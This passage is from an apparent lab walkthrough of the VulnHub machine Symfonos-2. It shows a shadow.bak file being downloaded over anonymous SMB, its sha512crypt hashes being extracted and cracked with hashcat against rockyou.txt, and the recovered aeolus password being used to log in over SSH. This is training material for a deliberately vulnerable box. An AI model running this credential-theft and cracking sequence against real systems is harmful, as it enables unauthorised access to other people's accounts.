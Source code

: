		![](images/Pasted%20image%2020220124003535.png)
	2. Download `shadow.bak`
		```
		┌──(root💀kali)-[~/vulnHub/Symfonos-2/192.168.236.7/loot/smb]
		└─# smbclient //$ip/anonymous 
		Enter WORKGROUP\root's password: 
		Try "help" to get a list of possible commands.
		smb: \> get shadow.bak 
		getting file \shadow.bak of size 1173 as shadow.bak (572.7 KiloBytes/sec) (average 572.8 KiloBytes/sec)
		smb: \> 
		```
4. Extract hashes
	```
	┌──(root💀kali)-[~/vulnHub/Symfonos-2/192.168.236.7/loot/smb]
	└─# cat shadow.bak | cut -d ":" -f2 | sed 's/*\|!/ /g' | awk 'NF'
	$6$VTftENaZ$ggY84BSFETwhissv0N6mt2VaQN9k6/HzwwmTtVkDtTbCbqofFO8MVW.IcOKIzuI07m36uy9.565qelr/beHer.
	$6$dgjUjE.Y$G.dJZCM8.zKmJc9t4iiK9d723/bQ5kE1ux7ucBoAgOsTbaKmp.0iCljaobCntN3nCxsk4DLMy0qTn8ODPlmLG.
	$6$wOmUfiZO$WajhRWpZyuHbjAbtPDQnR3oVQeEKtZtYYElWomv9xZLOhz7ALkHUT2Wp6cFFg1uLCq49SYel5goXroJ0SxU3D/
	```
	- `sha512crypt (1800)`
5. Crack hashes
	```
	┌──(root💀kali)-[~/vulnHub/Symfonos-2/192.168.236.7/loot/smb]
	└─# hashcat -a 0 -m 1800 hashes /usr/share/wordlists/rockyou.txt --show
	$6$dgjUjE.Y$G.dJZCM8.zKmJc9t4iiK9d723/bQ5kE1ux7ucBoAgOsTbaKmp.0iCljaobCntN3nCxsk4DLMy0qTn8ODPlmLG.:sergioteamo
	
	┌──(root💀kali)-[~/vulnHub/Symfonos-2/192.168.236.7/loot/smb]
	└─# cat shadow.bak | grep -i mlg
	aeolus:$6$dgjUjE.Y$G.dJZCM8.zKmJc9t4iiK9d723/bQ5kE1ux7ucBoAgOsTbaKmp.0iCljaobCntN3nCxsk4DLMy0qTn8ODPlmLG.:18095:0:99999:7:::
	```
	- aeolus:sergioteamo

## TCP/22 - SSH 
1. SSH w/ aeolus:sergioteamo
	![](images/Pasted%20image%2020220124004559.png)
